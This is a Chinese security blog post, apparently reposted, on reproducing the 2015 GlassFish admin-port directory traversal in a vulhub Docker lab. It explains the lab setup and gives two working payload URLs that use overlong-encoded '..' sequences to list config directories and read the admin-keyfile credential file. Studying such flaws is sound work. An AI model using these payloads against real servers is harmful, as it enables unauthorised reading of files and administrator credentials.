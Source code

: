 > 原文链接: https://www.anquanke.com//post/id/85948 


# 【技术分享】GlassFish 目录穿越漏洞测试过程


                                阅读量   
                                **147810**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                    



[![](https://p2.ssl.qhimg.com/t01b0080a42e66ff5f5.jpg)](https://p2.ssl.qhimg.com/t01b0080a42e66ff5f5.jpg)

这是一个2015年的老漏洞，由于我最近在学习相关的知识，所以拿出来温习一下。

<br>

**搭建测试环境**



vulhub（ [https://github.com/phith0n/vulhub](https://github.com/phith0n/vulhub) ）是我学习各种漏洞的同时，创建的一个开源项目，旨在通过简单的两条命令，编译、运行一个完整的漏洞测试环境。

如何拉取项目、安装docker和docker-compose我就不多说了，详见vulhub项目主页。来到GlassFish这个漏洞的详细页面 [https://github.com/phith0n/vulhub/tree/master/glassfish/4.1.0](https://github.com/phith0n/vulhub/tree/master/glassfish/4.1.0) ，可以查看一些简要说明。

在主机上拉取vulhub项目后，进入该目录，执行docker-compose build和docker-compose up -d两条命令，即可启动整个环境。

本测试环境默认对外开放两个端口：8080和4848。8080是web应用端口，4848是管理GlassFish的端口，漏洞出现在4848端口下，但无需登录管理员账号即可触发。

<br>

**文件读取漏洞利用**



漏洞原理与利用方法 [https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-016/?fid=6904](https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-016/?fid=6904) 。利用该目录穿越漏洞，可以列目录以及读取任意文件：

```
https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/domains/domain1/config
https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/domains/domain1/config/admin-keyfile
```

[![](https://p5.ssl.qhimg.com/t01ea50d05f9157f939.jpg)](https://www.leavesongs.com/media/attachment/2017/04/23/b7cb8c56-f960-4cc6-b82b-0d5585ea6839.jpg)
